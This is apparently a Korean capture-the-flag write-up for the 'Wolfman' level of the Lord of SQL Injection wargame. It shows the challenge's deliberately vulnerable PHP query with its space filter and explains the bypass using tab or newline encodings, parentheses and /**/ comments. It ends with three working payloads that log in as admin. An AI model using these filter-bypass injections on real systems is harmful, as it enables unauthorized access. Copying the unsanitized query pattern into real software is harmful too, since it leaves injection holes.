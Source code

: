 ###### 이번부터 한글로 적기로 하였습니다..
# **Wolfman**
## 1. 문제의도
공백 없이 쿼리를 작성할 수 있는가?

## 2. 코드
    <?php
      include "./config.php";
      login_chk();
      dbconnect();

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))  
          exit("No Hack ~_~");

      if(preg_match('/ /i', $_GET[pw]))
          exit("No whitespace ~_~");

      $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";

      echo "<hr>query : <strong>{$query}</strong><hr><br>";

      $result = @mysql_fetch_array(mysql_query($query));

      if($result['id'])
          echo "<h2>Hello {$result[id]}</h2>";

      if($result['id'] == 'admin')
          solve("wolfman");

      highlight_file(__FILE__);
    ?>

### 1. preg_match()
우리는 아래와 같은 내용을 사용할 수 없습니다.  
이전의 내용들과 다른 점은 공백을 사용할 수 없다는 점입니다.

    prob | _ | . | () | 공백

### 2. query

    select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'

pw 파라미터를 통해서만 이 쿼리를 조작할 수 있을 것 같다.

### 3. if($result['id'] == 'admin') solve("wolfman");

만약 id가 admin인 행의 값을 가져오는 데 성공한다면 우리는 이 문제를 클리어 할 수 있습니다.

## 3. Solution

이 문제에서는 우리가 MySQL의 부드러운 문법에 대해 알고 있는지에 대한 것 같다

중요한 것은 공백 이외의 구분문자들을 통해서도 쿼리를 구성 할 수 있다는 것이다.

### 1. 이스케이프 문자 사용
우리가 보아왔던 이스케이프 문자들 중에서 MySQL이 구분문자로 인식하는 것들은 다음과 같다.

    %09 | %0a | %0b | %0c | %0d

    %09 = Horizontal Tab (수평 탭. \t)

    %0a = Line Feed (Move Caret right down. \n)

    %0b = Vertical Tab (수직 탭. \v)

    %0c = Form feed (if you use this in printer, it will change paper to next paper. 다음장으로 바꿈. \f)

    %0d = Carriage return (Move Caret start of line where this is. 타자기에서 끝까지 다 쳤을때 왼쪽으로 미는거 \r)

### 2. 괄호 사용
그리고 (), 괄호를 사용할 수도 있다.

    or id="hello" 와 or(id)="hello" 는 같은 맥락이다.

### 3. 주석 활용
주석을 사용하면 공백과 같은 구분 효과를 얻을 수 있다.

    or id="admin" 과 or/**/id="admin" 은 같은 맥락이다.

### My Answers :

    ?pw='or%09id='admin // 구분 문자 이용

    ?pw='or(id)='admin // 괄호 사용 구분

    ?pw='or/**/id='admin // 주석 사용

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.m)**
